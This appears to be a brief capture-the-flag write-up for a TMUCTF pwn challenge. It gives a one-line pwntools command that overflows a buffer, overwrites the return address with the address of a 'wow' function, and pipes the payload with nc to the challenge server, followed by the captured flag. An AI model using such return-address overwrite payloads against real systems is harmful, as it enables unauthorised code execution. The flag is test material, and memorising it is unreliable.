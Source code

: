 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
Just overwrite the address of the `wow` function to the return address.  
```bash
python2.7 -c "import pwn; print 'A'*28 + pwn.p32(0xcafe) + '\n' + 'A'*136 + pwn.p32(0x00000000004012ec)" | nc 194.5.207.56 7010
```  
The flag:  
```
TMUCTF{w0w!_y0u_c0uld_f1nd_7h3_w0w!}
```
